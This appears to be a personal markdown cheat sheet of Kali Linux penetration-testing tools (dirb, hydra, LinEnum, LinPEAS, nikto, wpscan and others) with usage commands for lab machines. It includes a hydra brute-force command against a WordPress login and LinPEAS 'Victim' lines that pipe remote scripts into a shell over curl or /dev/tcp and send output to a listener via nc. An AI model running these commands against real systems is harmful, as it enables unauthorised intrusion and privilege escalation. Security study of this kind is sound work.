


# Misc

- https://gchq.github.io/CyberChef/ - The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis
- https://beefproject.com/ - BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser.

# burpsuite
https://www.kali.org/tools/burpsuite/

Burp Suite is an integrated platform for performing security testing of web applications. Its various tools work seamlessly together to support the entire testing process, from initial mapping and analysis of an application’s attack surface, through to finding and exploiting security vulnerabilities.

Burp gives you full control, letting you combine advanced manual techniques with state-of-the-art automation, to make your work faster, more effective, and more fun.

# dirb
Scan available pages
https://www.hackingarticles.in/comprehensive-guide-on-dirb-tool/

    dirb http://<ip> <opt:wordlist>

options:
- `-z`: Add a milliseconds delay to not cause excessive Flood.

wordlists:
- /usr/share/dirb/wordlist/vulns/...
- /usr/share/dirb/wordlists/big.txt

# Export

    dirb http://<ip>:<port> > /kali-share/dirb-<ip>-<port>.txt

# dirbuster
https://www.kali.org/tools/dirbuster/

DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. Often is the case now of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within. DirBuster attempts to find these.

However tools of this nature are often as only good as the directory and file list they come with. A different approach was taken to generating this. The list was generated from scratch, by crawling the Internet and collecting the directory and files that are actually used by developers! DirBuster comes a total of 9 different lists, this makes DirBuster extremely effective at finding those hidden files and directories. And if that was not enough DirBuster also has the option to perform a pure brute force, which leaves the hidden directories and files nowhere to hide.

# hydra

a very fast network logon cracker which support many different services

## Brute force - HTTP-FORM-POST
> **HINT**  
> Brute force HTTP-FORM-POST can also be achieved with burpsuite but the free version has limitations

Use burpsuite or the browser to get the request payload

    hydra -l <username> -P <pwd-list> <ip|dns> http-form-post "<login-page>:<post-content>:Invalid username"

Example:

    hydra -l Elliot -P /kali-share/downloads/fsocity.dic 192.168.56.105 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username"

Options:
  - `-l` username
  - `-L` username list
  - `-p` password
  - `-P` password list

# LinEnum – Linux Enumeration Script
This is an awesome Linux enumeration script. It’s run on the target host and searches for many of the common privilege escalation methods or misconfigurations.

Some of the enumeration information collected includes:

Kernel and distribution release details

- System information
- User information
- Privileged access
- Environmental information

https://github.com/rebootuser/LinEnum

## Usage
Download LinEnum

    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

Mount http server in the folder where you downloaded it

    python3 -m http.server

Download LinEnum.sh on the target machine

    cd /tmp
    wget 192.168.56.107:8000/LinEnum.sh

Set the execution rights
    
    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rw-r--r--  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh

    chmod +x LinEnum.sh
    
    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rwxr-xr-x  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh

Start the script

    ./LinEnum.sh

# LinPEAS - Linux Privilege Escalation Awesome Script
LinPEAS is a script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz.

Check the Local Linux Privilege Escalation checklist from book.hacktricks.xyz.

## Quick Start
Find the latest versions of all the scripts and binaries in the releases page.

    # From github
    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

    # Local network
    sudo python -m SimpleHTTPServer 80 #Host
    curl 10.10.10.10/linpeas.sh | sh #Victim
    
    # Without curl
    sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
    cat < /dev/tcp/10.10.10.10/80 | sh #Victim
    
    # Excute from memory and send output back to the host
    nc -lvnp 9002 | tee linpeas.out #Host
    curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

    # Output to file
    ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
    less -r /dev/shm/linpeas.txt #Read with colors

    # Use a linpeas binary
    wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
    chmod +x linpeas_linux_amd64
    ./linpeas_linux_amd64

# nikto
Gives vulnerabilities

    nikto -h http://<ip>:<port>

## Export

    nikto -h http://<ip>:<port> -o '/kali-share/nikto-<ip>-<port>.xml' -Format xml

Check if you find the following

- phpinfo
- system requirements
- software (i.e. twiki)

# wpscan
Vulnerabilities in WordPress can be uncovered by the WPScan utility, which comes installed by default in Kali Linux. It’s also a great tool for gathering general reconnaissance information about a website that’s running WordPress.

    wpscan --url http://example.com --api-token TOKEN --detection-mode aggressive

> **HINT**  
> Create a free profile on https://wpscan.com/ to get an API token  
> Daily API request limit: 75    
> Vulnerabilities are not shown if you don't use an API token